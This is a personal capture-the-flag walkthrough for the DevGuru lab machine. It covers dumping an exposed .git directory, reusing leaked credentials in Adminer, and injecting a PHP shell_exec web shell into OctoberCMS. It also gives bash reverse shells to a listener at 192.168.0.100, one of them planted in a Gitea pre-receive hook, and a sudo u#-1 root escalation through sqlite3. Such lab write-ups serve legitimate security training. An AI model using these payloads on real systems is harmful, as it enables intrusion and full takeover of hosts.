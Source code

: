 
Skills:

- Web Enumeration
- Extracting the contents of .git directory - GitDumper
- Extracting the contents of .git directory - GitExtractor
- Information Leakage
- Gaining access to a Adminer 4.7.7 panel
- Generating a new bcrypt hash for a user in order to gain access to OctoberCMS backend
- OctoberCMS Exploitation - Markup + PHP Code Injection
- Abusing Adminer to gain access to Gitea
- Abusing Git Hooks (pre-receive) - Code Execution (User Pivoting)
- Abusing sudoers privilege (ALL, !root) NOPASSWD + Sudo version (u#-1) in order to become root
-


```
whatweb ip  --> October_session --> cmd october
```
add to hosts file --> devguru.local

```
nmap -p 80 --script http-git ip port 80 http --> /.git/
```

OctoberCmd admin panel
```
http://192.168.0.104/backend
```

On port 8585 --> Gitea

Focus in .git using git-dumper https://github.com/internetwache/GitTools

```
#clone the dumper and extraactor repository
>svn checkout https://github.com/internetwache/GitTools/trunk/Dumper
>svn checkout https://github.com/internetwache/GitTools/trunk/Extractor
>cd dumper
>./gitdumper.sh http://192.168.0.104/.git/ ../git-project
>cd ../git-project
>cd ..
>cd Extractor
>./extractor.sh ../project ../full-git-project
>cd ../full-git-project
>cd config
>cat database.php --> found credentials!
```

Use the found credentials on the adminer.php page

```
http://192.168.0.104/adminer
>username -> october
>password -> 
>database -> octoberdb
```

I can edit the password for the frank user and use this credentials to logging into OctoberCmd admin panel
```
https://bcrypt-generator.com --> Encrypt the new password
```

Now inside the backend site try to inject a malicious php code to be able to remote code execution
```
#code
function onStart()
{
	$this>page["cmd"] = shell_exec($_GET['cmd']);
}
#Markup
{{ this.page.cmd }}

#On site
http://192.168.0.105/?cmd=whomai
# get a reverse shell
#on my machine
nc -nlvp 1234
#on website
http://192.168.0.105/?cmd=bash -c "bash -i >%26/dev/tcp/192.168.0.100/1234 0>%261"
```

Escalating privilege
```
> id --> nothing
> sudo -l --> nothing
> cd /var/backups
> cat app.ini.bak --> found credentials to the gitea db
> 
```

Whit these credentials I connect to the Adminer page

```
http://192.168.0.104/adminer
>username -> gitea
>password -> 
>database -> 
```

I can edit the password for the frank user and use this credentials to logging into Gitea application
```
https://bcrypt-generator.com --> Encrypt the new password
```

Command injection on the gitea application

```
#abuse githook
#githook pre receive
> bash -i >& /dev/tcp/192.168.0.100/1234 0>&1
#on my machine
nc -nlvp 1234
> make a commit and commit changes
```

Now we gain access as the user frank
Escalating privilege
```
> id --> nothing
> sudo -l --> You can execute the sqlite3 binary as any user except for root
> sudo --version --> 1.8.21 --> abusing sudo
> sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
```

Now we gain access as the user root.